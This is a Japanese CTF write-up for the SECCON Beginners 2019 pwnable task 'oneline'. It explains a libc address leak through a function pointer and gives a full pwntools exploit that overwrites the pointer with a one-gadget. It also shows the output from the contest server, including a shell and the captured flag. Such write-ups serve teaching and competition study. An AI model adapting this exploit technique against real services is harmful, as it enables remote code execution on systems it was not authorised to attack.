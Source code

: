 # はじめに
2019年5月25日〜26日、Szarnyさんと一緒SECCONのCTF For Beginners (ctf4b)に参加し、最後に二人のチームが2707ポイントを集め、666参加チームの中26位で終わりました。

以下、解けた問題「oneline」の解法を紹介していきます。
# oneline

ELFバイナリと`libc-2.27.so`が丁寧に渡されます。

```
$ checksec oneline
[*] '/ctf/SECCON2019-ctf4b/take2/Pwnable/OneLine/oneline'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$
```
PIEが有効になってるのは面倒臭そう、、だと思ったら、実行すると謎の文字化けが
```
$ ./oneline 
You can input text here!
>> neko
neko
@q:e�Once more again!
>> chan
chan
$
```
逆アセンブリを参考すれば文字化けの原因が明確となります。
```
...
|           0x00000888      488b45f8       mov rax, qword [buf]
|           0x0000088c      488b15450720.  mov rdx, qword [reloc.write]
|           0x00000893      48895020       mov qword [rax + 0x20], rdx
...
|           0x000008be      488b45f8       mov rax, qword [buf]
|           0x000008c2      488b4020       mov rax, qword [rax + 0x20]
|           0x000008c6      488b4df8       mov rcx, qword [buf]
|           0x000008ca      ba28000000     mov edx, 0x28
|           0x000008cf      4889ce         mov rsi, rcx
|           0x000008d2      bf01000000     mov edi, 1
|           0x000008d7      ffd0           call rax
...
```
一回メッセージを出力したところに、バッファーの直後に置いてあるwrite関数のアドレスがリークされてしまうようです。

リークを一度させ、libcのアドレスを計算してポインタをone-gadgetに書き換えれば良さそうです。
```python
#!/usr/bin/env python2
from pwn import *

e = ELF("./oneline")
libc = ELF("./libc-2.27.so")
addr_onegadget = 0x10a38c

SERVER = True 
if SERVER:
	p = remote("153.120.129.186", 10000)
else:
	p = e.process(env={"LD_PRELOAD" : libc.path})

padding = ("NekochanNano!" + " "*0x20)[:0x1f]

p.sendlineafter("> ", padding)
p.readuntil("\n")

addr_write = u64(p.read(8))
addr_libc = addr_write - libc.symbols["write"]
addr_onegadget += addr_libc
print "[*] Address of libc = %s" % hex(addr_libc)
print "[*] Address of onegadget = %s" % hex(addr_onegadget)

p.sendlineafter("> ", padding + "\n" + p64(addr_onegadget))
p.interactive()

p.close()
```
```
$ ./exploit.py 
[*] '/ctf/SECCON2019-ctf4b/take2/Pwnable/OneLine/oneline'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/SECCON2019-ctf4b/take2/Pwnable/OneLine/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 153.120.129.186 on port 10000: Done
[*] Address of libc = 0x7f5f11d2e000
[*] Address of onegadget = 0x7f5f11e3838c
[*] Switching to interactive mode
$ id
uid=30749 gid=30000(oneline) groups=30000(oneline)
$ cat flag.txt
ctf4b{0v3rwr!t3_Func7!on_p0int3r}
$  
```
`ctf4b{0v3rwr!t3_Func7!on_p0int3r}`というフラグが得られます。

以上 oneline の解法でした。読んで頂き、ありがとうございました！